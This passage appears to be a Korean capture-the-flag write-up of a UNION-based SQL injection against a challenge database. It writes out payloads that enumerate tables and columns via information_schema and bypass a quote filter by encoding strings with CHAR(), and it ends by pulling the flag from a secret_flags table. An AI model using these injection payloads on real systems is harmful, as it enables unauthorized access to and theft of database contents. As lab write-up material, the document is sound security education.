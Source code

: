 ![union select](/assets/screenshots/union-sqli/spec3_database.png)

> 데이터베이스 이름 **spec3**

후에 이제 `information_schema.tables`를 이용해 데이터베이스 `spec3` 내의 테이블 목록을 확인해보았다.

```html
-1+union+select+(select+table_name+from+information_schema.tables+where+table_schema='spec3'+limit+0,1),2,3,4,5--+
```

**문자열 리터럴을 포함한 SQL 구문(`'spec3'`)**을 삽입하려 하자, **"error":"Invalid character detected"** 메시지가 출력되며 필터링이 작동하였다. 

이를 우회하기 위해 `'spec3'`을 직접 입력하는 대신, 아래와 같이 `CHAR()` 함수를 사용한 **ASCII 기반 문자열 생성 방식**으로 접근하였다.


```html
-1+union+select+(select+table_name+from+information_schema.tables+where+table_schema=CHAR(115,112,101,99,51)+limit+2,1),2,3,4,5--+
```

쿼리 실행 결과, 테이블 이름으로 **secret_flags**가 출력되었고, 이후 이 테이블을 대상으로 컬럼 및 데이터를 조회할 수 있었다.

이제 `information_schema.columns`를 사용하여 `secret_flags` 테이블의 컬럼명을 확인하기 위해 다음과 같은 쿼리를 입력하였다. 

```html
-1+union+select+(select+column_name+from+information_schema.columns+where+table_schema=CHAR(115,112,101,99,51)+and+table_name=CHAR(115,101,99,114,101,116,95,102,108,97,103,115)+limit+2,1),2,3,4,5--+ 
```

쿼리 실행 결과, 각각 **id, flag_name, flag_value**라는 컬럼명을 확인할 수 있었다.

이후 `flag_value` 컬럼에서 실제 플래그 값을 추출하기 위해, `UNION SELECT`와 서브쿼리를 조합한 다음의 SQL 인젝션을 시도하였다.

```html
-1+union+select+(select+flag_name+from+secret_flags+limit+5,1),2,3,4,5,6,7,8--+

-1+union+select+(select+flag_value+from+secret_flags+limit+5,1),2,3,4,5,6,7,8--+
```

아까와 똑같이 `flag_name` 의 5번째 행이 **`real_flag`**임을 확인할 수 있었고, 나머지 행들은 모두 `fake_flag`로 설정되어 있었다.
